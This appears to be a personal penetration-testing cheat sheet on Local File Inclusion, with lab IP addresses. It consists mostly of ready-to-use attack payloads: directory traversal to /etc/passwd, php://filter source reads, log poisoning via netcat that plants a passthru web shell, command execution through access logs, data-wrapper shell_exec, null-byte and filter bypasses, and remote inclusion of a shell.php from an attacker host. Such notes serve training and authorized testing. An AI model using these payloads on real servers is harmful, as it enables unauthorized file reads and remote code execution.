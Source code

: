 # Local File Inclusion
 > Accessing files without proper permissions, find a parameter that loads a current file and try to change it to load another file that you may want.

### Identifying 
If the URL contains a parameter named `file=` this is a good sign we should start enumerating for directory traversals


### Basic Example
**Url:**  
`http://<ip>/home?page=contact.html → This is the original url`  
**Can this work?:**  
`http://<ip>/home?page=contact.html../../../../etc/passwd`  
`http://<ip>/menu.php?file=c:\windows\system32\drivers\etc\hosts`

### Reading PHP Files
`http://<ip>/home?page=php://filter/convert.base64-encode/resource=<page>`  
You might want to read SSH files, log files, backup files, server config, bash history

The `php.ini` file on the Windows 10 lab machine can be found at `C:\xampp\php\php.ini.` Before making any changes to this file, consider making a backup

### Inserting PHP Code into the log file
```
nc 192.168.1.102 80
GET /<?php passthru($_GET['cmd']); ?> HTTP/1.1
Host: 192.168.1.102
Connection: close
```

Can also add it to the error log by making a req to a page that does not exist
```
nc 192.168.1.102 80
GET /AAAAAA<?php passthru($_GET['cmd']); ?> HTTP/1.1
Host: 192.168.1.102
Connection: close
```

Or in the refferer parameter
```
GET / HTTP/1.1
Referer: <? passthru($_GET[cmd]) ?>
Host: 192.168.1.159
Connection: close
```

**Execute it in the browser**
`http://192.168.1.102/index.php?page=../../../../../var/log/apache2/access.log&cmd=id`  

Or for windows:   
`http://10.11.0.22/menu.php?file=c:\xampp\apache\logs\access.log&cmd=ipconfig`


### PHP Wrappers
Inject PHP code via LFI vulnerabilities

**Using data wrapper:**  
`http://10.11.0.22/menu.php?file=data:text/plain,hello world`
`http://<ip>/menu.php?file=data:text/plain,<?php echo shell_exec("dir") ?>`



### File extensions bypassing
**Example Code:**  
```
$file = $_GET['page']; 
require($file . ".php");
```

**Potential Solution:**
`http://<ip>/home?page=contact.html../../../../etc/passwd%00`
Null Byte Only works for php version < 5.3  


Can add a question Mark at the end so everything gets interpreted as a parameter:
`http://<ip>/home?page=contact.html../../../../etc/passwd?`

### Bypassing Filters
To escape the server stripping ../../../, add 2 dots and 2 slashes. Such as ….//….//….//

Try sending in a post request if php is configured in $_GET instead of $_REQUEST



### RFI
Make calls to remote destinations to retreive files, `file=http://<ip>:8000/shell.php`
